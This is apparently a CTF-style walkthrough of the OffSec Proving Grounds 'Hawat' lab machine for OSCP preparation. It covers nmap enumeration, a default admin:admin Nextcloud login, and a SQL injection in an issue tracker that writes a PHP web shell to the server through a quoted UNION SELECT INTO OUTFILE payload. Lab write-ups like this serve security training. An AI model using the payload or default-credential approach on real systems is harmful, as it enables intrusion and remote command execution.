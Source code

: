 ```yaml
---
title: Hawat Easy box on Offensive Security Proving Grounds - OSCP Preparation.
tags: [oscp easy box, PG easy box, enumeration, SQL Injection, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-01-04 09:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `Hawat` and this post is not a fully detailed walkthrough, I will just go through the important points during the exploit process.

## Enumeration:
- Nmap:

```bash
 ○ nmap -p- -T4 -vvv -Pn -oN nmap-all --max-retries 1 192.168.249.147                       
# Nmap 7.92 scan initiated Mon Jan  3 15:35:07 2022 as: nmap -p- -T4 -vvv -Pn -oN nmap-all --max-retries 1 192.168.249.147
Increasing send delay for 192.168.249.147 from 0 to 5 due to 11 out of 19 dropped probes since last increase.
Warning: 192.168.249.147 giving up on port because retransmission cap hit (1).
Nmap scan report for hawat.pg (192.168.249.147)
Host is up, received user-set (0.15s latency).
Scanned at 2022-01-03 15:35:07 CET for 867s
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE        REASON
22/tcp    open   ssh            syn-ack
17445/tcp open   unknown        syn-ack
30455/tcp open   unknown        syn-ack
50080/tcp open   unknown        syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jan  3 15:49:34 2022 -- 1 IP address (1 host up) scanned in 867.42 seconds
                                                                                               
```

- Port `22` SSH.
- Port `17445` is an issue tracker web application:
![image](../../assets/img/sample/pg-hawat/tracker.png)

- Port `30455` is Running a web Server, Using gobuster against that port gives us `phpinfo.php` file:
![image](../../assets/img/sample/pg-hawat/phpinfo.png)

- Port `50080` is Running Web Server, gobuster finds `/cloud` directory which is a nextcloud web application:
![image](../../assets/img/sample/pg-hawat/nextcloud.png)

- Login with `admin:admin` to `nextcloud` at http://hawat.pg:50080/cloud/.
- Download `issuetracker.zip` file:
![image](../../assets/img/sample/pg-hawat/downloadzip.png)

- After some `source code analysis`, we discover an SQL Injection vulnerability, which effects the issuetracker application on port `17445` at this endpoint `http://192.168.96.147:17445/issue/checkByPriority` via `priority` parameter:
![image](../../assets/img/sample/pg-hawat/sqli.png)

- Exploit SQL Injection and Write a shell on the server:
1. we have a phpinfo.php file on http://hawat.pg:30455/phpinfo.php and it shows the root directory of the web server:

![image](../../assets/img/sample/pg-hawat/rootdir.png)

2. Write a PHP web shell on the server using SQL Injection, You have to Create an account first, then login to the issuetracker application to exploit it, urlencode the bellow payload and inject it in `priority` parameter at `http://192.168.96.147:17445/issue/checkByPriority?priority=EXPLOIT` :
    * Exploit: `' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -`

- Access the shell:
![image](../../assets/img/sample/pg-hawat/root.png)


Happy Hacking!
